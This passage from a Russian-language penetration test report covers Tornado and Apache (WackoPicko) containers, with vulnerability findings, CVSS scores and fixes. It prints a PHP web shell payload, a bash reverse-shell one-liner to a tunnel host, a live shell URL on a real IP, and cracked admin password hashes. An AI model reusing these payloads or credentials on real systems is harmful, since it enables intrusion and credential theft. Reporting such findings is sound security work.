- **Критичность:** Средняя (CVSS 5.3) – повышает риск успешной реализации других атак (XSS, кликджекинг, перехват сессий), но сама по себе не предоставляет прямого доступа.
- **Рекомендация:** внедрить все рекомендуемые заголовки безопасности в соответствии с OWASP Secure Headers Project; настроить сессионные куки с флагами `HttpOnly`, `Secure`, `SameSite=Lax`.

**12_Отсутствие защиты от CSRF**

В ходе автоматического сканирования зафиксировано отсутствие anti-CSRF токенов. Формы для входа (`/login.html`) и загрузки файлов (`/upload`) не защищены, что позволяет выполнять действия от имени авторизованного пользователя.

- **CWE-352:** Cross-Site Request Forgery.
- **OWASP A01:2025** – Broken Access Control.
- **Критичность:** Средняя (CVSS 6.5) – может привести к несанкционированным действиям (например, загрузке вредоносных файлов) при условии, что у жертвы есть активная сессия.
- **Рекомендация:** включить механизм `xsrf_cookies` в Tornado для всех изменяющих состояние запросов.

**13_Утечка информации через заголовки и ошибки**

В ходе активного сканирования зафиксированы множественные ошибки приложения (Application Error Disclosure), связанные с включённым режимом отладки, а также раскрытие версий ПО через заголовки `Server` и `X-Powered-By`.

- **CWE-200:** Exposure of Sensitive Information.
- **OWASP A02:2025** – Security Misconfiguration.
- **Критичность:** Низкая (CVSS 3.5) – сама по себе не критична, но облегчает проведение целенаправленных атак, предоставляя информацию о технологиях.
- **Рекомендация:** отключить отладочную информацию и скрыть технологические заголовки.

**14_Уязвимые сторонние JavaScript-библиотеки**

В ходе активного сканирования обнаружено использование уязвимых JS-библиотек (например, устаревших версий jQuery).

- **CWE-1104:** Use of Unmaintained Third Party Components.
- **OWASP A03:2025** – Software Supply Chain Failures.
- **Критичность:** Средняя (CVSS 6.1) – зависит от конкретных уязвимостей библиотек (например, XSS в jQuery), но в целом повышает риск компрометации клиентской части.
- **Рекомендация:** проверить подключаемые библиотеки в `templates/*.html` и обновить их до актуальных безопасных версий

#### 3.3.5 Общие выводы и рекомендации по порту 7788

В ходе тестирования веб-сервера Tornado успешно реализована атака Command Injection, приведшая к полному контролю над контейнером. Дальнейшая разведка подтвердила наличие множественных уязвимостей как на уровне кода, так и на уровне конфигурации окружения. Несмотря на невозможность побега из контейнера и отсутствие уязвимостей в соседних сервисах (SSH, Zabbix Agent), критический характер найденных проблем (RCE, SQLi, Path Traversal, XSS) требует немедленного исправления.

### 3.4 Тестирование веб-сервера Apache (порт 8050/tcp)

Разведка и ручное тестирование выявили ряд критических уязвимостей, позволивших получить полный контроль над контейнером, извлечь учётные данные администраторов и получить доступ к базе данных.

#### 3.4.1 Автоматическое сканирование (OWASP ZAP)

Для первичного анализа проведено автоматическое активное сканирование с использованием OWASP ZAP. В целях предотвращения перегрузки веб-сервера и исключения влияния на доступность сервиса, скорость запросов ограничена до 3 в секунду, а трудоёмкие time-based атаки и переборы отключены. Сканер выявил следующие проблемы, частично установленные на этапе активной разведки:

- Отражённая XSS – 11 алертов.
- Path Traversal – 4 алерта. Потенциальная возможность чтения файлов, в том числе через параметры.
- SQL-инъекция – 2 алерта. Однако ручная проверка не подтвердила наличие инъекций в исследованном коде из-за использования `mysql_real_escape_string`.
- Отсутствие защитных HTTP-заголовков – `X-Frame-Options`, `X-Content-Type-Options`, `Content-Security-Policy`, `Strict-Transport-Security`.
- Directory Browsing – открыт листинг каталогов `/upload/`, `/users/`, `/pictures/`, `/images/`, `/comments/`, `/css/`, `/cart/`.
- Cookie без флагов безопасности – `HttpOnly` и `SameSite` отсутствуют.
- Раскрытие информации – в заголовках Server и X-Powered-By передаются версии. Кроме того, ошибках отображаются полные пути к файлам (например, /app/admin/index.php).

Результаты сканирования послужили основой для дальнейшего целенаправленного ручного тестирования.

#### 3.4.2 Эксплуатация уязвимости загрузки файлов и получение обратного шелла

В ходе анализа веб-приложения обнаружена форма загрузки изображений по адресу `/pictures/upload.php`. Пользователь имеет возможность указать следующие параметры:

- `tag` – название каталога, который будет создан внутри /upload/ для хранения файла;
- `name` – имя сохраняемого файла, отображающееся на сайте;
- `title, price` – сопутствующая информация.

В ходе тестирования формы загрузки с использованием Burp Suite выполнен ряд экспериментов для определения логики обработки параметров. Первоначально отправлен запрос с файлом test.php, содержащим код `<?php phpinfo(); ?>` и параметром `name=doBROfile`. В ответе сервера, несмотря на ошибки обработки изображений, файл сохранён по пути `/upload/doBRO/doBROfile`, что подтвердило прямую зависимость имени сохраняемого файла от значения поля `name`. При этом поле `name` в запросе не подвергалось проверке на расширение, что позволяло задать произвольное имя, включая расширение `.php`.

На основании этого наблюдения выдвинута гипотеза о возможности выполнения PHP-кода при сохранении файла с расширением `.php`. Для проверки сформирован второй запрос, в котором поле `name` изменено на `shell.php`, остальная полезная нагрузка не изменена. Сервер сохранил файл по адресу `/upload/test/shell.php`. При обращении к данному URL получен вывод HTML страницы с конфигурацией PHP на сервере, что подтвердило успешное выполнение произвольных команд на сервере. Таким образом, уязвимость небезопасной загрузки файлов с произвольным расширением подтверждена и использована для получения удалённого выполнения кода (RCE).





Затем параметр `name` изменен на `RealShell`, а содержание файла на `<?php system($_GET['cmd']); ?>`, при этом настощий файл не менялся.

После загрузки файл оказался доступен по адресу `http://92.51.39.106:8050/upload/test/shell.php`. При обращении с параметром `cmd=id` получен вывод:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Web shell получен. Для получения интерактивного доступа проведена разведка доступных интерпретаторов и утилит.



Далее сформирован реверс-шелл с использованием публичного туннельного сервиса pinggy.io: `bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'`.





На атакующей машине получено устойчивое соединение с оболочкой внутри контейнера.

#### 3.4.3. Внутренняя разведка и анализ среды

3.4.3. Внутренняя разведка и анализ среды

В полученной оболочке выполнен ряд команд для идентификации окружения:

- Наличие файла `.dockerenv` и содержимое `/proc/1/cgroup` подтвердили работу внутри Docker-контейнера.
- Версия ОС внутри контейнера – Ubuntu 14.04.3 LTS, что подтверждается содержимым `/etc/os-release`.
- Версия ядра хоста – `5.4.0-216-generic` (Ubuntu 20.04), что указывает на использование более современной хост-системы.
- Веб-корень расположен в `/app`.
- Сетевой интерфейс `eth0` имеет IP-адрес `172.17.0.3`.

Проверка переменных окружения и скриптов запуска `/start-apache2.sh`, `/start-mysql.sh`, `/create_mysql_admin_user.sh` выявила, что:

- MySQL запущен внутри контейнера.
- Пользователь root в MySQL не имеет пароля и доступен только локально.
- Пароль для пользователя `admin` генерируется случайно и не сохраняется, однако пользователь `wackopicko` имеет пароль `webvuln!@#` (извлечено из скриптов).



Чтение файлов `/app/include/ourdb.php` и `/app/include/database.php` подтвердило учётные данные для подключения к БД.

#### 3.4.4. Анализ исходного кода приложения и выявление уязвимостей

Благодаря доступу к файловой системе получены исходные коды всех PHP-скриптов. Детальный анализ выявил критические недостатки.

**1_Неограниченная загрузка файлов с опасным расширением**

```
$_POST['name'] = str_replace("..", "", $_POST['name']);
$_POST['name'] = str_replace(" ", "", $_POST['name']);
$_POST['name'] = str_replace("/", "", $_POST['name']);
...
$filename = "../upload/{$_POST['tag']}/{$_POST['name']}";
...
if (move_uploaded_file($_FILES['pic']['tmp_name'], $filename))
```

- **CWE-434:** Unrestricted Upload of File with Dangerous Type.
- **OWASP A01:2025** – Broken Access Control.
- **Критичность:** Критическая (CVSS 9.8) – позволяет злоумышленнику загрузить и выполнить произвольный PHP-код, что приводит к полной компрометации сервера.
- **Рекомендация:** запретить загрузку исполняемых файлов (проверять MIME-тип, расширение по белому списку), переименовывать файлы случайным образом, хранить их за пределами веб-корня.

**2_Отражённая XSS**

```
<p class="comment"><?= $comment['text'] ?></p>
```

Переменная `$comment['text']` выводится без экранирования (`htmlspecialchars`), что позволяет внедрить произвольный JavaScript при создании комментария.

**CWE-79:** Cross-site Scripting.
**OWASP A05:2025** – Injection.
**Критичность:** Средняя (CVSS 6.1) – требует взаимодействия с пользователем, но может привести к краже сессий, дефейсу страниц и перенаправлению.
**Рекомендация:** всегда экранировать вывод с помощью `htmlspecialchars()` или использовать шаблонизатор с автоэкранированием.

**3_Использование устаревших версий PHP и Apache**

- **CWE-1104:** Use of Unmaintained Third Party Components.
- **OWASP A03:2025** – Software Supply Chain Failures.
- **Критичность:** Средняя (CVSS 6.1) – отсутствие обновлений безопасности делает систему уязвимой для известных эксплойтов. Бэкпортирование от Ubuntu в данном случае смягчает оценку.
- **Рекомендация:** обновить PHP до актуальной версии (7.4 или 8.x) и Apache до последней стабильной версии, регулярно применять патчи безопасности.

**4_Хранение паролей с недостаточной стойкостью**

В таблице `admin` пароли хранятся в виде SHA-1 хэша без соли. В таблице `users` используется SHA-1 с солью, однако соль генерируется как `base64_encode(mt_rand(0,900))`, что даёт всего 901 вариант и делает соль легко предсказуемой.

- **CWE-916:** Use of Password Hash With Insufficient Computational Effort.
- **OWASP A04:2025** – Cryptographic Failures.
- **Критичность:** Высокая (CVSS 7.5) – хэши легко поддаются перебору, что позволяет восстановить пароли.
- **Рекомендация:** использовать современные алгоритмы хеширования (например, bcrypt, Argon2) с генерацией соли через криптостойкий генератор.

**5_Отсутствие защитных HTTP-заголовков**

- **CWE-693:** Protection Mechanism Failure.
- **OWASP A02:2025** – Security Misconfiguration.
- **Критичность:** Средняя (CVSS 5.3) – повышает риск реализации клиентских атак.
- **Рекомендация:** внедрить заголовки `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`, `Content-Security-Policy`, `Strict-Transport-Security`.

**6_Отсутствие CSRF-защиты**

Формы (загрузка, добавление комментариев, вход) не содержат токенов, что позволяет выполнять действия от имени авторизованного пользователя.

- **CWE-352:** Cross-Site Request Forgery.
- **OWASP A01:2025** – Broken Access Control.
- **Критичность:** Средняя (CVSS 6.5) – может привести к несанкционированным действиям.
- **Рекомендация:** внедрить уникальные CSRF-токены для каждой сессии и проверять их при обработке запросов.

**7_Раскрытие информации через ошибки**

Включён режим `display_errors`, о чём свидетельствуют ошибки при загрузке файлов (например, сообщения о `imagecreatefromjpeg`), раскрывающие абсолютные пути.

- **CWE-200**: Exposure of Sensitive Information.
- **OWASP A02:2025** – Security Misconfiguration.
- **Критичность:** Низкая (CVSS 3.5) – облегчает сбор информации для злоумышленника.
- **Рекомендация:** отключить `display_errors` в продакшене, логировать ошибки в файл.

**8_Directory Listing**

Каталоги `/upload/`, `/users/`, `/pictures/`, `/images/`, `/comments/`, `/css/`, `/cart/` доступны для просмотра содержимого.

- **CWE-538:** File and Directory Information Exposure.
- **OWASP A02:2025** – Security Misconfiguration.
- **Критичность:** Средняя (CVSS 5.3) – позволяет злоумышленнику обнаружить скрытые файлы и структуру приложения.
- **Рекомендация:** отключить индексацию каталогов (`Options -Indexes`) или использовать `index.html` заглушки.

#### 3.4.5 Доступ к базе данных и извлечение учётных данных

Скрипт `/create_mysql_admin_user.sh` показал, что MySQL запускается с пользователем root без пароля. Подключение к MySQL из оболочки: `mysql -uroot -e "SHOW DATABASES;"`.



Получены хэши SHA-1 паролей администраторов. С использованием общедоступных инструментов и проверки вручную подобраны пароли:

```
Логин - Хэш:Пароль
admin - d033e22ae348aeb5660fc2140aec35850c4da997:admin
adamd - c533607326f2b815a7c23701be52989dac8bdbb1:adamd
admin - d033e22ae348aeb5660fc2140aec35850c4da997:admin
adam - 0ace61762d02afdf98f793d98c37edf696b675b2:04095650
bob - 42a9037223cdbfe0c49ef0032f0a1f3392af3fe3:bobrocksmysocks
```

Наличие дублирующей учётной записи `admin/admin` подтверждает использование учётных данных по умолчанию. Таким образом, злоумышленник получает доступ к панели управления администратора `/admin/` и в теории может выполнять любые действия от имени администратора. На практике не может, поскольку, единтсвенное доступное действие администратору в веб-интерфейсе - создание пользователя, и оно ведет на ошибку.

#### 3.4.6 Общие выводы и рекомендации по порту

В ходе тестирования веб-сервера Apache успешно реализована цепочка атак, начиная с загрузки вредоносного PHP-файла и заканчивая получением обратного шелла, доступом к файловой системе, извлечением кода приложения и учётных данных. Критический характер уязвимостей (RCE, небезопасная загрузка, слабое хеширование паролей, отсутствие защитных механизмов) позволяет злоумышленнику полностью скомпрометировать контейнер, а также получить доступ к данным пользователей и администраторов, что требует немедленного исправления.


## ВЫВОД.

В ходе внешнего пентеста выявлены критические уязвимости в веб-приложениях Tornado и Apache, позволившие получить полный контроль над обоими контейнерами, извлечь учётные данные и скомпрометировать внутреннюю сеть Docker. Основные векторы атак: Command Injection, неограниченная загрузка файлов, SQL-инъекция и отсутствие защитных механизмов. Побег из контейнеров и горизонтальное перемещение на хост невозможны из-за корректных ограничений. Уровень защищённости веб-приложений оценивается как критический, требующий немедленного устранения выявленных уязвимостей. Приоритетные меры: устранение RCE-векторов, обновление устаревшего ПО, внедрение защитных заголовков и переход на безопасное хеширование паролей.